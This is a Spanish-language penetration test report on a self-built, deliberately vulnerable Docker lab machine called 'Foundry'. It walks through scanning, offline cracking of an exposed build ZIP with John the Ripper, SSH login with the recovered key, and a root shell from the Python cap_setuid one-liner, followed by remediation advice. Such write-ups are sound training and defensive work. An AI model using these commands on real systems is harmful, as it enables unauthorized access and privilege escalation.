

# Informe de Prueba de Penetración — Foundry

|                        |                                                                  |
| ---------------------- | ---------------------------------------------------------------- |
| **ID de informe**      | HO-0014-00                                                       |
| **Objetivo**           | Foundry (`127.0.0.1` — vhost `helix.local`)                      |
| **Plataforma**         | Laboratorio propio — máquina Docker autocontenida                |
| **Tipo de prueba**     | Caja negra (black box)                                           |
| **Fecha de ejecución** | 2026-10-23                                                       |
| **Autor**              | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión**            | 1.0                                                              |
| **Clasificación**      | Público — uso educativo                                          |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio propio,
> deliberadamente vulnerable, desplegado de forma local y aislada mediante Docker. La
> máquina fue construida por el propio autor con fines didácticos. Ninguna técnica descrita
> debe aplicarse sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha      | Descripción     |
| ------- | ---------- | --------------- |
| 1.0     | 2026-10-23 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Foundry** simulando un atacante externo sin credenciales ni
conocimiento previo del entorno, con el fin de obtener el máximo nivel de privilegios posible
sobre el sistema.

### 1.2 Resultado

El servidor exponía una página web de un "servidor de compilación" que, por una mala
configuración, dejaba a la vista una carpeta con un archivo comprimido interno del proceso de
desarrollo. Ese archivo estaba protegido con una contraseña trivial que se recuperó en
segundos; dentro guardaba una **llave de acceso remoto** y una nota con el nombre de usuario
asociado. Con esos dos datos se inició sesión en el servidor como un usuario normal.
Finalmente, un permiso especial mal asignado sobre una herramienta del sistema permitió
elevar ese acceso hasta el **control total** de la máquina. En conjunto, un atacante sin
ninguna credencial inicial pudo apropiarse por completo del servidor a partir de un archivo
que nunca debió estar publicado.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
| :-----: | :--: | :---: | :--: | :---------: |
|    1    |  1   |   0   |  0   |      0      |

### 1.4 Resumen de hallazgos

| ID         | Hallazgo                                                                      | Severidad | CVSS |
| ---------- | ----------------------------------------------------------------------------- | --------- | ---- |
| HO-0014-01 | Artefacto de build con clave privada SSH expuesto por listado de directorio   | Crítica   | 9.8  |
| HO-0014-02 | Escalada de privilegios por _capability_ `cap_setuid` en el intérprete Python | Alta      | 7.8  |

### 1.5 Recomendaciones prioritarias

1. Retirar de inmediato el artefacto publicado, desactivar el listado de directorio
   (`autoindex off`) y **rotar la clave SSH comprometida** (considerarla quemada).
2. Eliminar la _capability_ `cap_setuid` del binario de Python (`setcap -r /usr/bin/python3.11`);
   ningún intérprete de scripting debería conservar permisos de cambio de UID.
3. Integrar en el pipeline de CI controles que impidan publicar artefactos de build hacia
   zonas accesibles por HTTP y que eviten incluir claves privadas en paquetes.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo  | Dirección                                     | Incluido |
| ------- | --------------------------------------------- | :------: |
| Foundry | `127.0.0.1` — puertos `8081/tcp` y `2223/tcp` |    Sí    |

**Fuera de alcance:** denegación de servicio, infraestructura del host anfitrión y los
servicios de `localhost` ajenos al contenedor (ver nota en [§3.2](#32-reconocimiento)).

### 2.2 Metodología

Prueba basada en **PTES**, apoyada en **OWASP WSTG** para los componentes web:
reconocimiento, enumeración, análisis de vulnerabilidades, explotación, post-explotación y
reporte.

### 2.3 Entorno del auditor

| Componente   | Detalle                                                          |
| ------------ | ---------------------------------------------------------------- |
| Sistema      | Linux (entorno local del auditor)                                |
| Conexión     | Local (`127.0.0.1`), contra el contenedor Docker del lab         |
| Herramientas | nmap, curl, gobuster, zip2john, John the Ripper, OpenSSH, getcap |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1**:

| Severidad   | Puntaje  | Criterio                                            |
| ----------- | :------: | --------------------------------------------------- |
| Crítica     | 9.0–10.0 | Compromiso total, remoto y sin autenticación.       |
| Alta        | 7.0–8.9  | Compromiso significativo o escalada de privilegios. |
| Media       | 4.0–6.9  | Impacto limitado o con condiciones previas.         |
| Baja        | 0.1–3.9  | Impacto mínimo.                                     |
| Informativa |   0.0    | Buena práctica, sin impacto directo.                |

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 127.0.0.1
nmap -sCV -p2223,6600,8081,33928,39017 -T4 -Pn -n -oN detallado.txt 127.0.0.1
```

Del barrido se identificaron como pertenecientes al objetivo únicamente dos servicios:

| Puerto     | Servicio | Versión                   | Observaciones                                                                                        |
| ---------- | -------- | ------------------------- | ---------------------------------------------------------------------------------------------------- |
| `2223/tcp` | SSH      | OpenSSH 9.2p1 (Debian 12) | Acceso remoto; inútil sin material de clave.                                                         |
| `8081/tcp` | HTTP     | nginx 1.22.1              | Principal superficie de ataque. Título: _Foundry · Build Server_. `robots.txt` revela `/artifacts/`. |

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

El banner HTTP se presentaba como un servidor de compilación ("Build Server"). La primera
revisión barata del sitio —`robots.txt`— delató una ruta que el operador prefería no indexar:

```text
User-agent: *
Disallow: /artifacts/
```

La enumeración de contenido con `gobuster` (apoyada en el vhost `helix.local`) confirmó esa
única ruta de interés, respondiendo con código `200`:

```bash
gobuster dir -u http://helix.local:8081 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  --add-slash
# artifacts/   (Status: 200) [Size: 279]
```

Al visitar `/artifacts/` se observó que nginx tenía el **listado de directorio
(`autoindex`) activado**, dejando a la vista un archivo `build-artifacts.zip`: un artefacto
del proceso de CI publicado por error hacia una zona accesible por HTTP.

### 3.4 Acceso inicial

El ZIP descargado estaba cifrado con contraseña, pero contenía credenciales reutilizables
(una clave SSH y el usuario del host). El detalle completo del vector —descarga, crackeo
offline y uso de la clave— se documenta en **[HO-0014-01](#ho-0014-01--artefacto-de-build-con-clave-privada-ssh-expuesto-por-listado-de-directorio)**.

### 3.5 Movimiento lateral

No aplica. Desde la cuenta `builder` se escaló directamente a `root`; no hubo usuarios
intermedios.

### 3.6 Escalada de privilegios

Ya con una shell como `builder`, la enumeración local descartó vectores por `sudo` y por
binarios SUID, pero reveló una **capability peligrosa** sobre el intérprete de Python. El
detalle se documenta en **[HO-0014-02](#ho-0014-02--escalada-de-privilegios-por-capability-cap_setuid-en-el-intérprete-python)**.

---

## 4. Hallazgos técnicos

### HO-0014-01 — Artefacto de build con clave privada SSH expuesto por listado de directorio

|                         |                                                                                                                                                   |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severidad**           | Crítica                                                                                                                                           |
| **CVSS v3.1**           | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`                                                                                              |
| **CWE**                 | CWE-552 (archivos accesibles por terceros) · CWE-522 (credenciales insuficientemente protegidas) · CWE-548 (exposición por listado de directorio) |
| **CVE**                 | —                                                                                                                                                 |
| **Componente afectado** | `http://127.0.0.1:8081/artifacts/build-artifacts.zip` (nginx 1.22.1)                                                                              |
| **Estado**              | Explotada                                                                                                                                         |

> **Justificación del vector CVSS.** El acceso es remoto y por red (`AV:N`), sin
> autenticación ni privilegios previos (`PR:N`) ni interacción de la víctima (`UI:N`). La
> complejidad es baja (`AC:L`): el artefacto está publicado y la contraseña del ZIP es de
> diccionario, crackeable en segundos. La obtención de una clave SSH válida otorga una shell
> interactiva, con impacto alto en confidencialidad, integridad y disponibilidad del contexto
> comprometido (`C:H/I:H/A:H`). Puntaje resultante: **9.8**.

#### Descripción

El servidor nginx servía el directorio `/artifacts/` con el **listado automático
(`autoindex`) habilitado** y, dentro de él, un artefacto del pipeline de integración continua
(`build-artifacts.zip`) publicado hacia una zona accesible por HTTP. La ruta, lejos de estar
protegida, aparecía anunciada en `robots.txt`.

El archivo estaba cifrado con una contraseña **de diccionario** (presente en `rockyou.txt`),
lo que no constituye protección real frente a un ataque offline. Su contenido eran dos
elementos críticos: una **clave privada SSH sin passphrase** (`id_rsa`) y una nota
(`NOTES.txt`) que revelaba el **usuario del host** asociado a la clave (`builder`).

La causa raíz es una cadena de malas configuraciones del proceso de despliegue: (a) un
artefacto de build que nunca debió salir de la zona de CI terminó publicado por HTTP; (b) el
`autoindex` de nginx expuso su existencia; (c) el "cifrado" del ZIP dependía de una
contraseña trivial; y (d) una clave privada de acceso viajaba dentro de un backup, sin
passphrase que la protegiera.

#### Prueba de concepto

1. A partir de la ruta delatada por `robots.txt`, se confirma el listado de directorio y se
   descarga el artefacto:

   ```bash
   curl -s http://127.0.0.1:8081/artifacts/
   curl -s http://127.0.0.1:8081/artifacts/build-artifacts.zip -o build-artifacts.zip
   unzip -l build-artifacts.zip        # -> NOTES.txt, id_rsa (cifrados)
   ```

2. Se extrae el hash del ZIP y se ataca offline con John the Ripper y `rockyou.txt`:

   ```bash
   zip2john build-artifacts.zip > hash_zip.txt
   john hash_zip.txt --wordlist=/usr/share/seclist/Password/Leaked-Databases/rockyou.txt
   john --show hash_zip.txt
   # build-artifacts.zip : pri******
   ```

3. Con la contraseña se descomprime el artefacto, obteniendo la clave privada y el usuario:

   ```bash
   unzip -P 'pri******' build-artifacts.zip
   cat NOTES.txt        # Usuario del host para despliegues: builder
   ```

4. Se usa la clave para iniciar sesión por SSH como `builder`:

   ```bash
   chmod 600 id_rsa
   ssh -i id_rsa -p 2223 \
     -o StrictHostKeyChecking=no \
     -o UserKnownHostsFile=/dev/null \
     builder@127.0.0.1

   builder@foundry:~$ id
   uid=1000(builder) gid=1000(builder) groups=1000(builder)
   ```

#### Impacto

- **Confidencialidad:** acceso completo a los archivos y datos legibles por `builder`,
  incluida la flag `user.txt`.
- **Integridad:** capacidad de modificar y crear archivos en el contexto del usuario.
- **Disponibilidad:** posibilidad de interrumpir o alterar los procesos que ese usuario
  controla.

El hallazgo constituye el **punto de apoyo (foothold)** de toda la cadena: sin ninguna
credencial inicial, un atacante remoto obtiene una shell interactiva en el servidor.

#### Remediación

- **Corto plazo:**
  - Retirar `build-artifacts.zip` y cualquier artefacto de la ruta pública.
  - Desactivar el listado de directorio en nginx: `autoindex off;`.
  - **Rotar la clave SSH comprometida** y retirar la clave pública correspondiente de
    `~/.ssh/authorized_keys` en el host. La clave debe considerarse quemada.
- **Largo plazo:**
  - Impedir que el pipeline de CI publique artefactos hacia rutas servidas por HTTP; separar
    el almacenamiento de artefactos de la raíz web.
  - Prohibir por política la inclusión de claves privadas en artefactos o backups; cuando una
    clave sea imprescindible, protegerla con passphrase fuerte y gestionarla en un _secrets
    manager_.
  - No confiar en el cifrado por contraseña de ZIP como control de seguridad.

#### Referencias

- OWASP WSTG — _Review Webserver Metafiles for Information Leakage_ (WSTG-INFO-03).
- OWASP WSTG — _Test for Unsecured Credentials_ / _Testing for Weak Password Policy_.
- CWE-548: _Exposure of Information Through Directory Listing_.
- CWE-522: _Insufficiently Protected Credentials_.

---

### HO-0014-02 — Escalada de privilegios por _capability_ `cap_setuid` en el intérprete Python

|                         |                                                                                                |
| ----------------------- | ---------------------------------------------------------------------------------------------- |
| **Severidad**           | Alta                                                                                           |
| **CVSS v3.1**           | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                           |
| **CWE**                 | CWE-250 (ejecución con privilegios innecesarios) · CWE-732 (asignación de permisos incorrecta) |
| **CVE**                 | —                                                                                              |
| **Componente afectado** | `/usr/bin/python3.11` con `cap_setuid=ep`                                                      |
| **Estado**              | Explotada                                                                                      |

> **Justificación del vector CVSS.** La explotación requiere una sesión local previa
> (`AV:L`, `PR:L`), sin interacción de terceros (`UI:N`) y con complejidad baja (`AC:L`): la
> técnica es un one-liner público. El resultado es una shell `root`, con compromiso total de
> confidencialidad, integridad y disponibilidad (`C:H/I:H/A:H`). Puntaje resultante: **7.8**.

#### Descripción

El binario del intérprete de Python (`/usr/bin/python3.11`) tenía asignada la _capability_
`cap_setuid=ep`. Las _Linux capabilities_ fragmentan los privilegios de `root`: `cap_setuid`
permite a un proceso cambiar su UID efectivo de forma arbitraria, incluyendo **UID 0
(root)**. Concederla a un intérprete de scripting equivale a regalar privilegios de
administrador, ya que cualquier usuario que pueda ejecutar ese binario puede invocar
`setuid(0)` y lanzar un proceso con plenos privilegios.

La causa raíz es un permiso de más: una _capability_ potente aplicada sobre un binario que no
la necesitaba para su función. A diferencia de los vectores por `sudo`, este no aparece en
`sudo -l` ni en la búsqueda de binarios SUID, lo que lo hace más silencioso.

#### Prueba de concepto

1. Tras descartar `sudo` y SUID, se enumeran las _capabilities_ del sistema. El binario
   `getcap` no estaba en el `PATH` de la sesión SSH, por lo que se localizó por ruta completa:

   ```bash
   find / -name getcap 2>/dev/null        # -> /usr/sbin/getcap
   /usr/sbin/getcap -r / 2>/dev/null
   # /usr/bin/python3.11 cap_setuid=ep
   ```

2. Siguiendo la técnica documentada en **GTFOBins → Capabilities**, se eleva a `root`:

   ```bash
   /usr/bin/python3.11 -c 'import os; os.setuid(0); os.execl("/bin/bash", "bash")'

   root@foundry:~# id
   uid=0(root) gid=1000(builder) groups=1000(builder)
   root@foundry:~# whoami
   root
   ```

#### Impacto

Compromiso total del sistema: lectura y escritura de cualquier archivo (incluida la flag
`root.txt`), control de todos los procesos y servicios, y persistencia a discreción del
atacante.

#### Remediación

- **Corto plazo:** retirar la _capability_ del binario:
  ```bash
  setcap -r /usr/bin/python3.11
  getcap -r / 2>/dev/null        # verificar que ya no figura
  ```
- **Largo plazo:**
  - Auditar periódicamente las _capabilities_ del sistema (`getcap -r /`) e incluir esa
    revisión en los controles de _hardening_ y en el baseline de la imagen.
  - Nunca asignar `cap_setuid`, `cap_setgid`, `cap_dac_override` ni `cap_sys_admin` a
    intérpretes (python, perl, ruby…) ni a binarios de propósito general; concederlas solo al
    binario mínimo imprescindible y documentarlas.

#### Referencias

- GTFOBins — _python: Capabilities_ (`cap_setuid`).
- `man 7 capabilities` — modelo de capacidades de Linux.
- CWE-250: _Execution with Unnecessary Privileges_.

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel         | Usuario   | Método     | Prueba                      |
| ------------- | --------- | ---------- | --------------------------- |
| Usuario       | `builder` | HO-0014-01 | `user.txt` — `8ea503d3****` |
| Administrador | `root`    | HO-0014-02 | `root.txt` — `e5a1840b****` |

```bash
root@foundry:~# cat /home/builder/user.txt
8ea503d3****************************
root@foundry:~# cat /root/root.txt
e5a1840b****************************
```

### 5.2 Información sensible expuesta

| Tipo                  | Ubicación                                      | Observación                                            |
| --------------------- | ---------------------------------------------- | ------------------------------------------------------ |
| Clave privada SSH     | `build-artifacts.zip` → `id_rsa`               | Sin passphrase; concede acceso directo como `builder`. |
| Nombre de usuario     | `build-artifacts.zip` → `NOTES.txt`            | Revela el usuario de despliegue (`builder`).           |
| Contraseña de archivo | `build-artifacts.zip` (contraseña `pri******`) | De diccionario; crackeable offline en segundos.        |

### 5.3 Limpieza

| Artefacto                          | Ubicación            | Estado                                                                  |
| ---------------------------------- | -------------------- | ----------------------------------------------------------------------- |
| Shell de root (proceso `bash`)     | Sesión SSH `builder` | Finalizada al cerrar la sesión.                                         |
| Clave SSH / artefactos descargados | Equipo del auditor   | Conservados como evidencia en `loot/` (entorno de laboratorio aislado). |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

El compromiso total de Foundry no dependió de ninguna vulnerabilidad de software, sino del
**encadenamiento de malas configuraciones operativas**. Un artefacto de CI publicado por
error, sumado al listado de directorio de nginx, convirtió un descuido de despliegue en una
superficie de ataque. El "cifrado" del ZIP con una contraseña de diccionario no añadió
protección real, y la clave privada que contenía —sin passphrase— transformó la exposición de
un archivo en una shell remota. Por último, una _capability_ `cap_setuid` innecesaria sobre el
intérprete de Python cerró la cadena entregando `root`. Cada eslabón era, por sí solo,
corregible con una práctica de _hardening_ básica; su combinación produjo el compromiso
completo.

### 6.2 Aprendizajes del auditor

- **Técnica aplicada:** escalada por _Linux capabilities_ (`cap_setuid`), un vector distinto
  al clásico `sudo`/SUID y que no aparece en `sudo -l`.
- **Dónde me trabé y cómo lo resolví:** `getcap` no estaba en el `PATH` de la sesión SSH y a
  primera vista "no devolvía nada"; se resolvió localizándolo con `find / -name getcap` e
  invocándolo por ruta completa (`/usr/sbin/getcap -r /`).
- **Qué haría distinto:** automatizar la etapa de enumeración local con una herramienta como
  `linpeas`, que habría señalado la _capability_ sin la fricción del `PATH`, y fuzzear
  extensiones de artefacto (`.zip`, `.tar.gz`, `.bak`) desde el primer `gobuster`.

---

## 7. Anexos

### A. Salida completa de escaneos

<details><summary>nmap — descubrimiento de puertos</summary>

```text
# Nmap 7.992 scan initiated Fri Oct 23 20:01:17 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 127.0.0.1
Nmap scan report for 127.0.0.1
Host is up (0.000060s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
2223/tcp  open  rockwell-csp2
6600/tcp  open  mshvlm
8081/tcp  open  blackice-icecap
33928/tcp open  unknown
39017/tcp open  unknown
```

</details>

<details><summary>nmap — detección de servicios y versiones (puertos del objetivo)</summary>

```text
# Nmap 7.992 scan initiated Fri Oct 23 20:02:54 2026 as: nmap -sCV -p2223,6600,8081,33928,39017 -T4 -Pn -n -oN detallado.txt 127.0.0.1
PORT      STATE SERVICE VERSION
2223/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
| ssh-hostkey:
|   256 a5:6a:07:21:75:1f:92:0f:54:ec:bf:9d:02:ed:7d:d5 (ECDSA)
|_  256 45:71:3c:9e:6c:0e:3a:cf:48:56:30:27:0e:8c:ce:10 (ED25519)
6600/tcp  open  mpd     Music Player Daemon 0.24.0        # servicio del host, fuera de alcance
8081/tcp  open  http    nginx 1.22.1
|_http-title: Foundry \xC2\xB7 Build Server
| http-robots.txt: 1 disallowed entry
|_/artifacts/
33928/tcp open  unknown                                   # servicio del host, fuera de alcance
39017/tcp open  http    Golang net/http server            # servicio del host, fuera de alcance
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Los servicios `6600/tcp`, `33928/tcp` y `39017/tcp` corresponden al equipo local del
> auditor y **no pertenecen al contenedor Foundry**. El objetivo expone solo `2223/tcp` (SSH)
> y `8081/tcp` (HTTP).

</details>

<details><summary>gobuster — enumeración de contenido web</summary>

```text
gobuster dir -u http://helix.local:8081 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --add-slash

artifacts/           (Status: 200) [Size: 279]
Progress: 220557 / 220557 (100.00%)
```

</details>

### B. Scripts y exploits

<details><summary>Crackeo del ZIP (John the Ripper)</summary>

```bash
zip2john build-artifacts.zip > hash_zip.txt
john hash_zip.txt --wordlist=/usr/share/seclist/Password/Leaked-Databases/rockyou.txt
john --show hash_zip.txt
# build-artifacts.zip:pri******
```

</details>

<details><summary>Escalada de privilegios (GTFOBins — python / cap_setuid)</summary>

```bash
find / -name getcap 2>/dev/null                       # -> /usr/sbin/getcap
/usr/sbin/getcap -r / 2>/dev/null                     # -> /usr/bin/python3.11 cap_setuid=ep
/usr/bin/python3.11 -c 'import os; os.setuid(0); os.execl("/bin/bash", "bash")'
```

</details>

### C. Mapeo MITRE ATT&CK

| Táctica              | Técnica                                              | ID        |
| -------------------- | ---------------------------------------------------- | --------- |
| Reconnaissance       | Active Scanning                                      | T1595     |
| Discovery            | File and Directory Discovery                         | T1083     |
| Credential Access    | Brute Force: Password Cracking                       | T1110.002 |
| Credential Access    | Unsecured Credentials: Credentials In Files          | T1552.001 |
| Initial Access       | Valid Accounts                                       | T1078     |
| Lateral Movement     | Remote Services: SSH                                 | T1021.004 |
| Privilege Escalation | Abuse Elevation Control Mechanism: Setuid and Setgid | T1548.001 |

### D. Referencias generales

- PTES — _Penetration Testing Execution Standard_.
- OWASP WSTG — _Web Security Testing Guide_.
- Calculadora CVSS v3.1 de FIRST — <https://www.first.org/cvss/calculator/3.1>.
- GTFOBins — <https://gtfobins.github.io/>.
- MITRE ATT&CK — <https://attack.mitre.org/>.
